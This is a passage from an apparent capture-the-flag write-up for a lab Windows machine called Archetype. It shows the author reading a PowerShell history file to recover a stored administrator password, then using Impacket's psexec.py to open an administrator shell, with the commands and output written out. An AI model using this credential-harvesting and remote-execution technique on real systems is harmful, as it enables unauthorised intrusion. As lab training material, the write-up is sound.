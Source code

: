 ```ps
Computer name                        \\ARCHETYPE
Full Computer name                   Archetype
User name                            sql_svc

Workstation active on                
        NetBT_Tcpip_{F9786909-146A-4450-84CE-B06994DB4499} (005056B90510)

Software version                     Windows Server 2019 Standard

Workstation domain                   WORKGROUP
Logon domain                         ARCHETYPE

COM Open Timeout (sec)               0
COM Send Count (byte)                16
COM Send Timeout (msec)              250
The command completed successfully.

net users

User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sql_svc                  WDAGUtilityAccount       
The command completed successfully.
```

But in fact, I found another excellent-looking article [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#powershell-history) describing some more privilege escalation.  I try running:
```ps
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
So it looks like there is a user called `administrator` with potentially a password there: `MEGACORP_4dm1in!!`...  Given this, it looks like `backups` has been mapped using the local admin credentials.

Let's try logging into the system again, using another one of Impacket's tools: `psexec.py`;
```bash
$ python3 git-workspace/impacket/examples/psexec.py administrator@archetype
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on archetype.....
[*] Found writable share ADMIN$
[*] Uploading file NxYETPZE.exe
[*] Opening SVCManager on archetype.....
[*] Creating service bzkq on archetype.....
[*] Starting service bzkq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

